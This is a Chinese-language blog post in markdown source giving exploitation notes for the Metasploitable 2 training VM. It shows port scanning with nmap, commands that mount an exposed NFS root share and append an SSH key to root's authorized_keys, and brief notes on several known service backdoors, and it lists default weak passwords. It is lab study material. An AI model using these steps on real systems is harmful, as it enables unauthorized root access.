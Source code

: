 ```yaml
---
layout: post
title: Metasploitable2-Exploitability-Guide
date: 2017-10-16
tags: 安全靶场通关  
---
```






![rapid7][1]

<br>

###  内容：metasploitable 2 利用笔记    

暂时不包括对web应用和服务的利用  

环境搭建: VMware 虚拟机[下载地址](https://information.rapid7.com/metasploitable-download.html)  注册信息随便写，或者[直接下载](https://metasploit.help.rapid7.com/docs/metasploitable-2).    

metasploitable 2 用户名密码`msfadmin`/`msfadmin`.登陆后查看地址`ifconfig`.    

  ![ifconfig][2]   


<br>

<p style="color: #FF2D2D">
<strong>打开kali用nmap扫描该地址开启的端口和服务以及服务版本:`nmap -p1-65535 -sV 192.168.227.128`</strong></p>      

  ![nmap][3]  

得到很多开启的服务及端口信息,这正是我们需要的.    

---    

### PORT: 2049 NFS(Network File System) 网络文件系统    

  使用`rpcinfo`判断`NFS`服务是否开启，再用`showmount -e` 判断`linux`系统根目录是否被共享和可以挂载.  

    # rpcinfo -p 192.168.227.128
    # showmount -e 192.168.227.128


![NFS][4]  

  通过挂载远程服务器的根目录，再写入文件。这里选择写入ssh公钥用ssh私钥直接进行登录。  

创建公私钥   

    # ssh-keygen -t rsa    

![ssh-keygen][5]  

挂载共享目录到本地，再将公钥重命名写到指定目录，用私钥登录   

    # mount -t nfs 192.168.227.128:/ /tmp/
    # cat id_rsa.pub >> /tmp/root/.ssh/authorized_keys
    # umount /tmp
    # ssh 192.168.227.128

![ssh][6]  

------

### PORT: 21 vsftpd-2.3.4     
  该版本包含一个后门，如果一个用户名被传入最后包含`:)`，该版本会在6200端口监听一个shell，可以用telnet或者msf测试这个漏洞    

  ![telnet][7]  

  ![msfconsole][8]  

-----

### PORT: 6667 UnrealRCD IRC 守护进程    

  该版本(Unreal3.2.8.1)包含一个后门,该后门允许用户执行任意命令，拥有该服务的权限  

  ![Unreal][9]  

-------  

### PORT: 1524 "ingreslock" backdoor  

  很久以前这是一个常见的后门  

  ![1524][10]  

-----  

### PORT: 3632 distccd backdoor   

  ![3632][11]  

------  

### PORT: 445.139 Samba  

  Samba 当配置为可写的文件共享并且`smb.conf`中`wide links`选项为on的时候，可以导致不被分享的目录也可被进入  

  ![Samba][12]  

-----  

### Weak Paawords  

    msfadmin/msfadmin
    user/user
    postgres/postgres
    sys/batman
    klog/123456789
    service/service  

-----  

# web 应用程序有时间也会写出来  




----------



<br>

[1]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/1.png  
[2]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/2.png    
[3]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/3.png  
[4]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/4.png  
[5]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/5.png  
[6]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/6.png  
[7]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/7.png  
[8]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/8.png  
[9]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/9.png  
[10]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/10.png  
[11]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/11.png  
[12]:https://raw.githubusercontent.com/havysec/havysec.github.io/master/_posts/post_image/2017-10-16/12.png  
